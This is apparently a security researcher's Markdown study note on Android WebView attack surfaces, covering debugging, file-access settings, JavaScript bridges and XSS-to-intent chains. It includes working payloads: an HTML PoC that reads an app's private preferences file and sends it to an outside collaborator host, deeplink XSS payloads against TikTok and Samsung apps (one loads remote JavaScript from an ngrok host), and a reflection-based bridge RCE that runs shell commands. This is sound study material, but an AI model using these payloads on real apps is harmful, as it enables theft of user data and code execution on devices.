

The [WebView](https://developer.android.com/reference/android/webkit/WebView) class is a widely used to offer an in-app browser experience. It allows a developer to render any .html file or display a website in the app. It also comes with powerful Java to JavaScript bindings which are a common place for vulnerabilities.

## WebView attacks [^web-view-attacks]

[^web-view-attacks]: [The 2024 Guide to Android WebView Vulnerabilities](../../Readwise/Articles/SecureLayer7%20Lab%20-%20The%202024%20Guide%20to%20Android%20WebView%20Vulnerabilities.md), securelayer7.net

**Remote WebView** **debugging** allow to access the device webview with your laptop **Chrome Developer Tools.** The **device** needs to be **accessible** by the PC (via USB, local emulator, local network...) and running the debuggable WebView, then access `chrome://inspect/#devices`:



In order to enable WebView Remote Debugging you can do something like:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
// Enable the WebView Debug depending on the debuggable flag inside the manifest
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

### File access 
Android provides different ways to enable/disable file read/access from a WebView. If managed incorrectly, those settings may allow you to read arbitrary data on the device, eventually also from the external SD.

Check for: 
- `getAllowFileAccess()` / `setAllowFileAccess(boolean)`[^setAllowFileAccess] 
- `getAllowUniversalAccessFromFileURLs` / `setAllowUniversalAccessFromFileURLs(boolean)` [^setAllowUniversalAccessFromFileURLs]
- `getAllowFileAccessFromFileURLs()` / `setAllowFileAccessFromFileURLs(boolen)` [^setAllowFileAccessFromFileURLs]
- `WebViewAssetLoader`

[^setAllowFileAccess]: https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess(boolean)
[^setAllowUniversalAccessFromFileURLs]: https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs(boolean)
[^setAllowFileAccessFromFileURLs]: https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccessFromFileURLs(boolean)

PoC to exfiltrate files:
```html
<script>
var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local file
function load(url) {
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function() {
	if (xhr.readyState === 4) {
		fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=' + btoa(xhr.responseText)); //send b64 encoded file to attacker
		}
	}
	xhr.open('GET', url, true);
		xhr.send('');
}
load(url)
</script>
```

### JavaScript Enabled

WebViews have Javascript **disabled by default**. The method `setJavaScriptEnabled()` [^setJavaScriptEnabled] can explicitly enabling or disabling it.

[^setJavaScriptEnabled]: https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled(boolean)

Android application often supports [Deeplinks](Android%20101.md#Deeplinks) and [Intent](Intent.md). If JavaScript is enabled inside a WebView vulnerable to [Cross-Site Scripting (XSS)](../Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md), it is possible to exploit it to send arbitrary intents [^intent-scheme], interact with any [Activity](Activity.md) and potentially obtain RCE.

Example from [TikTok for Android 1-Click RCE](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105):
```html
// send an intent from an XSS
<script>
location = "intent:#Intent;component=com.zhiliaoapp.musically/com.ss.android.ugc.aweme.favorites.ui.UserFavoritesActivity;package=com.zhiliaoapp.musically;action=android.intent.action.VIEW;end;"
</script>

// call a deep-link from an XSS (using WebView bridge implementation)
<script>
window.ToutiaoJSBridge.invokeMethod(JSON.stringify({  
"__callback_id": "0",  
"func": "openSchema",  
"__msg_type": "callback",  
"params": {  
"schema": "aweme://wiki?url=javascript://m.tiktok.com/%250adocument.write(%22%3Ch1%3EPoC%3C%2Fh1%3E%22)&disable_app_link=false"  
},  
"JSSDK": "1",  
"namespace": "host",  
"__iframe_url": "http://iframe.attacker.com/"  
}));
</script>
```

[^intent-scheme]: https://www.mbsd.jp/Whitepaper/IntentScheme.pdf

Example from [XSS + unsecure deeplink causing arbitrary application installation](https://ssd-disclosure.com/ssd-advisory-galaxy-store-applications-installation-launching-without-user-interaction/):
```html
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
  </head>
  <body>
    <a href="samsungapps://MCSLaunch?action=each_event&url=https://us.mcsvc.samsung.com/mcp25/devops/redirect.html?mcs_ru=a%26testMode=1%26%22id=%22%3Ca%2520id%253d%22%3e%3Csvg/onload%253dimport(%27https://xxxxxx.ngrok.io/open.js%27)%3e%22%3e">1 click</a>
  </body>
</html>
```

### JavaScript Bridge

Android offers a way for JavaScript executed in a WebView to **call and use native functions of an Android app** (annotated with `@JavascriptInterface`) by using the `addJavascriptInterface` [^addJavascriptInterface] method. This is known as a *WebView JavaScript bridge* or *native bridge*.

[^addJavascriptInterface]: https://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29

When you use `addJavascriptInterface`, you're **explicitly granting access** to the registered JavaScript Interface object **to all pages loaded within that WebView**.

*BrowserActivity*
```java
public class BrowserActivity extends ActivityC4970d implements View.OnClickListener, C5147d.InterfaceC5148a {
...
//Enabling Javascript Bridge exposing an object of the C5164c class
this.f5288V.addJavascriptInterface(new C5164c(this), "RoboTemplatesWebViewApp");
...
```

*C5164c.java*
```java
/* renamed from: e.d.a.a.a.a.h.o.c */
/* loaded from: classes.dex */
public class C5164c {
...
// Since Android 4.2 (JELLY_BEAN_MR1, API 17) methods not annotated with @JavascriptInterface are not visible from JavaScript
@JavascriptInterface
    public void showToast(String str) {
        Toast.makeText(this.f8808a, str, 1).show();
    }
...
```

PoC calls `showToast()` from an arbitrary HTML page with an arbitrary message:
```html
<html><body><script>RoboTemplatesWebViewApp.showToast("Meethack");</script></body></html>
```


>[!warning]
>In the case of an **Open Redirect to an attackers web page that access the Native Android Object**, if the access to the redirection is done via a mobile **browser** and **not using** the same **WebView**, the **browser won't be able to access the native Android object**.

Older android version may allow to obtain RCE using [Reflection technique](https://labs.withsecure.com/publications/webview-addjavascriptinterface-remote-code-execution), but modern application are no longer vulnerable.
```html
<!-- javascriptBridge is the name of the Android exposed object -->
<script>
function execute(cmd){
  return javascriptBridge.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mwr\" > /mnt/sdcard/mwr.txt']);
</script>
```

### In the wild WebView attacks

- [Bounty of an Insecure WebView (Part 1)](../../Readwise/Articles/Crisdeo%20Nuel%20Siahaan%20-%20Bounty%20of%20an%20Insecure%20WebView%20(Part%201)%20XSS,%20but%20With%20Steroids.md)
- [Exploiting Android WebView Vulnerabilities](https://medium.com/mobis3c/exploiting-android-webview-vulnerabilities-e2bcff780892)
- [WebView addJavascriptInterface Remote Code Execution](https://labs.withsecure.com/publications/webview-addjavascriptinterface-remote-code-execution)
